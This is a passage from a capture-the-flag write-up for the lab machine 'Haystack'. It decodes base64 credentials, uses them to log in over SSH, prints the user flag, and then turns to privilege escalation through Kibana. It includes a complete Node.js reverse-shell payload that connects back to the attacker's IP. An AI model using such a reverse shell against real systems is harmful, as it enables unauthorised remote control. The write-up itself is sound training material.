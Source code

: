 as we see we found two base64 strings lets decode them  

```Shell
root@X-Billy:~/Desktop# echo dXNlcjogc2VjdXJpdHkg | base64 --decode
 user: security 
 root@PEN-TEST-PC1:~/Desktop# echo cGFzczogc3BhbmlzaC5pcy5rZXk= | base64 --decode
 pass: spanish.is.key

```

nice we find the user creds 

> USER FLAG 

okaii lets connect by ssh useing these creds 

```Shell
root@X-Billy:~/Desktop# ssh security@10.10.10.115
security@10.10.10.115's password: 
Last login: Thu Oct 24 07:17:53 2019 from 10.10.16.161
[security@haystack ~]$
```

yup the creds are working  
lets see what is there 

```
[security@haystack ~]$ cat user.txt 
04d18bc79dac1d4d48ee0a940c8eb929
```

> Privilege Escalation 

We find LFI on Elasticsearch version .. okaai lets get a shell as a user kibana  

I use this javaScript shell i replace the ip and the port  

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8001, "10.10.16.161", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();

```

I put it in /dev/shm  

and as we see kibana is running on port 5601 by reading the /etc/kibana/kibana.yml  

i make the following curl req to execute our reverse shell  

